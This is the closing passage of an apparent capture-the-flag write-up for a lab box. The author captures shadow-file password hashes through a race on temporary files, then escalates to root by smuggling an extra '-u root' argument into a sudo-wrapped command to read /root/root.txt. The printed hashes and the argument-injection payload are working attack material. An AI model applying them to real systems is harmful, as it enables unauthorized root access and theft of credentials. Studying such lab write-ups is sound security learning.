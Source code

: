 And now this is going to copy everything in /tmp/SSH/ every 0.5 seconds to /dev/shm, if we execute the BetterSSH now while this is running we are going to find a randomly named file with the following content in /dev/shm
```
root
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
18226
0
99999
7


robert
$6$fZZcDG7g$lfO35GcjUmNs3PSjroqNGZjH35gN4KjhHbQxvWO0XU.TCIHgavst7Lj8wLF/xQ21jYW5nD66aJsvQSP/y1zbH/
18163
0
99999
7
```

So we could now go and crack this hash, or we use another mistake that was made in this BetterSSH.py, which we can see here: 

```py
if session['authenticated'] == 1:
    while True:
        command = input(session['user'] + "@Obscure$ ")
        cmd = ['sudo', '-u',  session['user']]
```

This means that all our commands that we run in this ssh are executed as sudo -u robert {command}, which results in our commands being run as the user robert, but if our command is

```
-u root whoami
```

we can see that the command got executed as root. Which means we are able to get root-flag with 

```
-u root cat /root/root.txt
```

# 0x04 Closing words

This was my first 'medium' rated box and it was one hell of a ride, Thanks to the author of the box I learned a lot from solving this one.
